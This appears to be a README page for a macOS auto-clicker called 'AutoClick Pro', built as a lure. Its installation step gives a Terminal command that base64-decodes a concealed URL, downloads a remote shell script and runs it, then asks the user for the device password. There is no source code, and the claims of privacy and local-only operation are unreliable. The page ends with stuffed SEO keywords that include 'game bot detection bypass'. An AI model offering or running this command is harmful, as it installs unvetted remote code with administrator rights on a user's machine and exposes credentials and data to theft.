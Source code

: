 # 🖱 AutoClick Pro – Smart Automated Clicks for macOS

📌 About AutoClick Pro  
AutoClick Pro automates mouse clicks with precision, ideal for repetitive tasks in workflows, testing, or gaming. Designed for macOS, it offers customizable intervals, locations, and click patterns while ensuring minimal system impact. Privacy-focused with no data collection, it runs locally for secure automation. Integrates smoothly with macOS accessibility features for seamless operation.

## 🧰 Installation via a terminal command:
1. Copy the installation command below
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return  
3. Enter your device password when prompted and confirm the installation  

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://cdn.osxdaily.com/wp-content/uploads/2025/03/maclicker-mac-autoclicker.jpg)  
- ![](https://www.chip.de/ii/1/2/6/3/8/7/7/8/6/bfc012027d1f52af.jpg)  


## 🎯 Key Features  
⚡️ **Fast Automation**: Execute rapid or delayed clicks with adjustable timing  
🔒 **Privacy-First**: No data collection—runs entirely locally  
⚙️ **Customizable Patterns**: Set click sequences for complex workflows  
🚀 **Low Latency**: Optimized for minimal CPU usage  
🎨 **Native macOS UI**: Blends seamlessly with system aesthetics  
📊 **Session Logs**: Review click history for debugging  

## 💡 System Requirements  
- **OS**: macOS 12.0 Monterey or newer  
- **CPU**: Apple Silicon or Intel Core i5 and above  
- **RAM**: 4 GB minimum  
- **Storage**: 200 MB available  
- **Others**: Terminal access and active internet connection  

## 🔍 SEO Keywords  
`macOS click automation` · `auto clicker for M1 Mac` · `privacy-focused mouse recorder`  
`RPA software for Mac` · `game bot detection bypass` · `no-code task automation`  
`best auto clicker 2024` · `local execution automation tool` · `low-CPU usage clicker`  
